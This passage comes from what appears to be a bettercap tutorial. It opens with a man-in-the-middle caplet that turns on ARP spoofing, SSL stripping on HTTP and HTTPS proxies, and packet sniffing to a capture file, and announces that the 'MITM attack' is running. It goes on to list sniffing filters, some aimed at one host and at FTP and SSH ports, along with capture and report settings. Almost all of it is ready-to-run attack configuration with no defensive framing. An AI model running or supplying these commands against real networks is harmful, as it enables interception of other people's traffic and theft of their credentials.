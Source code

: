 ```bash

# Sniffing configuration
set net.sniff.local true
set net.sniff.output advanced_mitm.pcap
set net.sniff.filter "tcp port 80 or tcp port 443"

# Proxy configuration
set http.proxy.sslstrip true
set https.proxy.sslstrip true

# Start attacks
arp.spoof on
net.sniff on
http.proxy on
https.proxy on

echo "[*] MITM attack running... Press Ctrl+C to stop"
events.stream
```

#### Run Custom Caplets:
```bash
# Run caplet
caplet recon.cap

# Run with parameters
caplet advanced-mitm.cap
```

---

## 🔍 Advanced Sniffing Techniques

### Selective Protocol Capture:
```bash
# Capture specific protocols only
set net.sniff.filter "tcp port 80 or tcp port 443 or tcp port 21 or tcp port 22"

# Capture excluding certain traffic
set net.sniff.filter "not arp and not dns"

# Complex BPF filters
set net.sniff.filter "host 192.168.1.100 and (tcp port 80 or tcp port 443)"

# Capture large files only
set net.sniff.filter "tcp and greater 1000"
```

### Real-time Analysis Configuration:
```bash
# Enable packet parsing in memory
set net.sniff.parser memory

# Limit packet capture size
set net.sniff.limit 5000

# Multiple output formats
set net.sniff.output capture.pcap
set net.sniff.report capture.html

# Verbose logging
set net.sniff.verbose true
```

